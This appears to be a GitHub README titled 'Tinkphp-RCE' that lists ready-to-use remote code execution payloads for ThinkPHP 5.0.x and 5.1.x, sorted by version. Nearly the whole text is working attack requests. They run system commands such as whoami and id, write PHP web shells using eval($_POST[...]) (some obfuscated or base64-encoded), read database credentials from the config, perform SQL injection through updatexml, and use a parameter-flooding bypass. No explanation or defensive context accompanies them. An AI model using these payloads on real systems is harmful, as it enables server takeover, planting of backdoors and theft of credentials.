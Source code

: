 # Tinkphp-RCE   

tp rce


#5.0.x

post：/?s=portal-index.php?s=captcha
_method=__construct&filter[]=phpinfo&method=GET&get[]=1
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=construct&filter[]=assert&filter[]=file_put_contents('0.php',_decode('JTNDJTI1ZXZhbCUyMHJlcXVlc3QlMjAlMjglMjJwYXNzJTIyJTI5JTI1JTNF'))&server=-1
_method=__construct&filter[]=system&get[]=ipconfig
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=phpinfo()
_method=__construct&filter[]=assert&method=get&server[REQUEST_METHOD]=phpinfo()

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=psrntjiseqs.php&vars[1][]=<?php eval($_POST[1])?>

/index?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

?s=index/think\config/get&name=database.username

#5.0.9 

_method=__construct&filter[]=assert&method=get&get[]=phpinfo()

_method=__construct&filter[]=assert&method=get&get[]=file_put_contents('a.php','<?php eval($_POST[a])?>')

#5.0.10

/index.php?s=index/index/index

post: s=ipconfig&_mehthod=__construct$method=&filter[]=system

#5.0.11

/public/index.php?s=index/index/index
data:?s=whoami&_method=__construct&method&filter[]=system

#5.0.15

public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1

#5.0.23

POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls


bypass

/index.php?s=11&s=11s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=file_put_contents('hyck.php','<?php eval($_POST[hyck])?>')

index.php?s=index/\think\Request/input&cacheFile=spread.php&content=<?php @eval($_POST[spread]);?>

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=./hyck.php&vars[1][]=Fuck_You_Admin<?php function sys(){return 'al($_';}@eval('ev'.sys().'POST[hyck]);');?>

#5.1.x

?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
